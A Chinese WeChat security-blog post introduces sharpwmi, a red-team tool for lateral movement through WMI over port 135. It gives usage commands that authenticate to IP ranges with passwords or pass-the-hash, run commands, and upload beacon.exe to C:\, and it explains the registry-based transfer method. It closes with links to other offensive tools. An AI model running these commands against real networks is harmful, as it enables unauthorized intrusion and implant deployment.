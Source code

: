 #  一个基于rpc的横向移动工具，具有上传文件和执行命令功能。

upzhu  [ x9sec ](javascript:void\(0\);)

**x9sec** ![]()

微信号 x9sec_com

功能介绍 进行网络安全知识分享，渗透测试，红队蓝队技术分享，安全开发平台开源

____

___发表于_

收录于合集

  
**声明：**
该公众号大部分文章来自作者日常学习笔记，也有部分文章是经过作者授权和其他公众号白名单转载，未经授权，严禁转载，如需转载，联系开白。请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本  
公众号无关。  
---  
  
  

  

 **项目简介**

  

这是一个基于135端口来进行横向移动的工具,具有执行命令和上传文件功能,通过wmi来执行命令,通过注册表来进行数据传输.

 **项目描述**  

 **命令  
**

  *   *   *   *   * 

    
    
     sharpwmi.exe login 192.168.2.3 administrator 123 cmd whoamisharpwmi.exe login 192.168.2.3/24 administrator 123 cmd whoamisharpwmi.exe login 192.168.2.3-23 administrator 123 upload beacon.exe c:\beacon.exesharpwmi.exe pth 192.168.2.3-192.168.2.77 cmd whoamisharpwmi.exe pth 192.168.2.3/255.255.255.0 upload beacon.exe c:\beacon.exe
    
    
     **  
    **

##  **原理:**

###

###  **执行命令** ：

通过wmi来执行命令，server将命令结果存在本机注册表，然后client连接注册表进行读取命令结果

###

###  **上传文件:**

client将需要上传的文件放到server的注册表里面，然后server通过powershell来操作注册表方式来取文件然后释放到本地

##

##  **优点：**

  * 不依赖139和445端口

##

##  **缺点：**

  * 目前只支持上传512kb以下的文件，因为注册表每个值值长度不能超过512kb。

  * 执行命令和上传文件都依赖powershell

##

##  **todo:**

  * 用添加增加多个值的方式来实现上传任意大小文件

  * 去除powershell依赖![](https://gitee.com/fuli009/images/raw/master/public/20230714181008.png)![](https://gitee.com/fuli009/images/raw/master/public/20230714181009.png)  

  
 ****

 **下载地址**

 **项目地址：** https://github.com/idiotc4t/sharpwmi ****

 **添加管理微信进内部交流群**  

 **  
**

![](https://gitee.com/fuli009/images/raw/master/public/20230714181011.png)

 **  
**

# **  往期推荐**  

[WebSocket
内存马/Webshell，一种新型内存马/WebShell技术](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485218&idx=1&sn=253e80ffe166a1d6f2d49e4ce3a3d9aa&chksm=fcedb385cb9a3a93f2af164a433ea7450fbc42de90b1e155ed6002083def4686410395dc4d53&scene=21#wechat_redirect)  

[Chunsou（春蒐），Web指纹资产识别，风险收敛以及企业互联网资产风险摸查识别工具](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485204&idx=1&sn=6fb5b82803fe00de48be2400a9246149&chksm=fcedb3b3cb9a3aa5208f0e8c45a260cc482fb73ff40afa45f745a7eb45a389a48792e8c0518c&scene=21#wechat_redirect)  

[Nacos Hessian
反序列化漏洞利用工具](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485190&idx=1&sn=c53db63cfaf46560d3369806321bc275&chksm=fcedb3a1cb9a3ab754c81a351965d1551b591ec5626af76aa5673d2400a9171729de39f80e9e&scene=21#wechat_redirect)  

[myscan
集成多个框架的漏洞扫描工具](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485181&idx=1&sn=2f91540e572397e15627cddb2ba24c4d&chksm=fcedb25acb9a3b4c2f7ee781fbca46ee1385afe194581f801c8721c72911a51211ac7779d173&scene=21#wechat_redirect)  

[Burp的JS
API接口过滤插件](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485160&idx=1&sn=55fb551de62132f0aacaff2821b24eb2&chksm=fcedb24fcb9a3b59e8bebafb9189e912a5e844c4c176df200e4cd4459510a7f8580a8f8aaac5&scene=21#wechat_redirect)  

[通达OA检测工具](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485131&idx=1&sn=bccb90bc296d87908f073ac8f6c317a0&chksm=fcedb26ccb9a3b7aeeb7c6beec9ba5fe7af4168ff731dfe1429c2daaebe3425d888b7da1eb80&scene=21#wechat_redirect)  

[从零学习Webshell免杀手册](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485091&idx=1&sn=591916b62674003afd2f57bba780cef5&chksm=fcedb204cb9a3b1209e510ed72ad42984a6ef5b62736164bd5474ff28d81b99ae9f9368ad0e2&scene=21#wechat_redirect)  

[爬网站JS文件，自动fuzz
api接口，指定api接口](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485069&idx=1&sn=e94bad6d0f927441b7cb5c533d2e369d&chksm=fcedb22acb9a3b3cfb57e9d40f8898c51fa4c9fa3562bd112b5d489f9cba5cf81637d1558b53&scene=21#wechat_redirect)  

[生成各类免杀webshell适合市面上常见的几种webshell管理工具、冰蝎、蚁剑、哥斯拉](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485058&idx=1&sn=ac47be9a9d0c6aba0ec991e5213a903e&chksm=fcedb225cb9a3b3312a895ec7da3819216fde632546b644f943a6b31c3b6efa6db3624f6edf7&scene=21#wechat_redirect)  

[一款新的webshell管理工具](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485049&idx=1&sn=e02753cc60ea620882710bf9cf7b23b0&chksm=fcedb2decb9a3bc82b6dc1d9da9bc9c112ceedf608732c8d3338b04c4ffa5b44ebe28355272c&scene=21#wechat_redirect)  

[浏览器插件--
右键检测图片是否存在Exif漏洞](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485033&idx=1&sn=184c7486a3fb0f06b27885e881146561&chksm=fcedb2cecb9a3bd82564162a5a013261acad3b244ba67af527b211175701b5ebc617f731fafe&scene=21#wechat_redirect)  

[一个自动化通用爬虫
用于自动化获取网站的URL](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485003&idx=1&sn=914d8bcd37af1e43ea293b20a6b7976e&chksm=fcedb2eccb9a3bfa7174dfba94b4b85570ab818f875acbcef26163c173ae7c67c4c153f6d191&scene=21#wechat_redirect)  

[一个查询IP地理信息和CDN服务提供商的离线终端工具](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247484994&idx=1&sn=55a0986b58d7bff15e8f55fd4b495204&chksm=fcedb2e5cb9a3bf3bc6d55f4e292fa43b4cb563012593b0f7832c040e0616f2aac53975dc31b&scene=21#wechat_redirect)  

[红队批量脆弱点搜集工具](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247484965&idx=1&sn=70e48cdcb7683b227bc3f8d8efd05a6a&chksm=fcedb282cb9a3b942c93edec939bf9943a66d7345c40916e3c17a369ace2d0a9eed83ccf5ae8&scene=21#wechat_redirect)  

[Spring漏洞综合利用工具——Spring_All_Reachable](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247484989&idx=1&sn=bfa97e5279e921e26631b9f93a75eefe&chksm=fcedb29acb9a3b8c178d47f04eaee53aabeb8e27b2c06e12d7f8a0916ea288b2a7ad94f4da3e&scene=21#wechat_redirect)  

[利用字符集编码绕过waf的burpsuite插件](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247484894&idx=1&sn=33cec3b0baa230be290d7c62935d0dd5&chksm=fcedb179cb9a386f103c044a2fcb481e31efc4358c808b38c7d4cd961ec99cbd72ac80175b8a&scene=21#wechat_redirect)  

[云安全-
AK/SK泄露利用工具](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247484850&idx=1&sn=785ebf6284c536262a08a6713cbcac8a&chksm=fcedb115cb9a38030cfe0024ecd722b3269d6eeddcd0845433f73ab68660ed776019b7a1f649&scene=21#wechat_redirect)  

[可以自定义规则的密码字典生成器](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247484816&idx=1&sn=80a19335226b0e242a36a85486c541fc&chksm=fcedb137cb9a382100c0fbb51875de2a1183f46acccced953d4ee927c3f627d8d8e4a3f660d4&scene=21#wechat_redirect)  

[MySql、Oracle、金仓、达梦、神通等数据库、Redis等管理工具](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247484787&idx=1&sn=766263e71666745fca6a1fe71b016170&chksm=fcedb1d4cb9a38c2cccc8c58afb34b31677974540d45ad9db5f032c0eba6c7ff26527c0dbd2c&scene=21#wechat_redirect)  

[JNDI/LDAP注入利用工具](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247484743&idx=1&sn=42224dd27e62cb0d7a5cbdebf4dbbf19&chksm=fcedb1e0cb9a38f6b091c5a753c80b411bb92197ea02439a0493886ad55b7203fed057ec7718&scene=21#wechat_redirect)  

[jmx未授权访问 弱口令批量检测 GUI工具 -
jmxbfGUI](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247484738&idx=1&sn=3d7cf4b2ec5bc5a92de3db9c57fe036e&chksm=fcedb1e5cb9a38f3e8d8fce41bfd4ac22d001c075bfe2f1425f1a90643ede8b93bce377fa787&scene=21#wechat_redirect)  

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

